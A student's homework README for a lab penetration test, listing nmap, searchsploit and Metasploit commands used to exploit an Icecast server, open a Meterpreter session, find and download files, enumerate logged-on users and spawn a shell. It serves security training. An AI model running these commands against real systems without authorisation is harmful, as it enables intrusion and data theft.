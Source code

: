 
# Rob Myers: Week 17 Homework: Penetration Testing 2

This week I was tasked with performing an internal penetration test on GoodCorp’s Icecast server. GoodCorp is an open source streaming media server.

For a full review of the findings here is a copy of the after action report: (Icecast Report)

### [Icecast Report](Report.pdf)

Below is commands and exploits used to demonstrate vulnerabilities on the Icecast Server: 

## Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


1. Perform a service and version scan using Nmap to determine which services are up and running:

    * Run the Nmap command that performs a service and version scan against the target.

        ### Answer: **nmap -sS -sV -O -Pn 192.168.0.20**

   ### [nmap-Pictures](IMAGE/OS.md) 
        

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

    * Run the SearchSploit commands to show available Icecast exploits.

       ### Answer: **searchsploit Icecast**

    ### [Searchsploit Pictures](IMAGE/search.md)


3. Now that we know which exploits are available to us, let's start Metasploit:

    * Run the command that starts Metasploit:

        ### Answer: **msfconsole**

    ### [Starting metasploit Pictures](IMAGE/meta1.md) 

4. Search for the Icecast module and load it for use.

    * Run the command to search for the Icecast module:

        ### Answer: **search Icecast**

     ### [Search Icecast Pictures](IMAGE/meta.md) 

    * Run the command to use the Icecast module:

        ### Answer: **use 0** 

    ### [Use the Icecast Module Picture](IMAGE/meta2.md)     

5. Set the RHOST to the target machine.

    * Run the command that sets the RHOST:

       ### Answer: **set RHOSTS 192.168.0.20** 

     ### [Set the RHOSTS Picture](IMAGE/meta3.md)  

6. Run the Icecast exploit.

    * Run the command that runs the Icecast exploit.

    ### Answer: **RUN**

    ### [Running the Exploit Picture](IMAGE/meta4.md) 

    * Run the command that performs a search for the secretfile.txt on the target.

    ### Answer: **search -f * secretfile * .txt**

    ### [Searching for Secretfile.txt Picture](IMAGE/meta5.md)  

7. You should now have a Meterpreter session open.

    * Run the command to perform a search for the recipe.txt on the target:

    ### Answer: **search -f * recipe * .txt**

    ### [Searching for recipe Picture](IMAGE/meta6.md) 

    * Run the command that exfiltrates the recipe*.txt file:

    ### Answer: **download c/Users/IEUsers/Documents/Drinks.recipe.txt**


    ### [Exfiltrates command for recipe.txt](IMAGE/meta7.md) 

    ### [Common Meterpreter Commands](IMAGE/meta8.md) 


8. You can also use Meterpreter's local exploit suggester to find possible exploits.

    * Run the command to use Meterpreters's local exploit suggester 

    ### [Meterpreter Explit Suggester](IMAGE/meta9.md)  

    ### Answer: **run post/multi/recon/local_explit_suggester

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

Bonus

A. Run a Meterpreter post script that enumerates all logged on users.

### Answer: **run post/windows/gather/enum_logged_on_users** 

### [View ALL logged on Users](IMAGE/meta10.md)  


B. Open a Meterpreter shell.

### Answer: **shell** 

### [Document the Shell Command](IMAGE/meta11.md) 

C. Run the command that displays the target's computer system information:

### Answer: **sysinfo** 

### [sysinfo information](IMAGE/meta11.md)










    
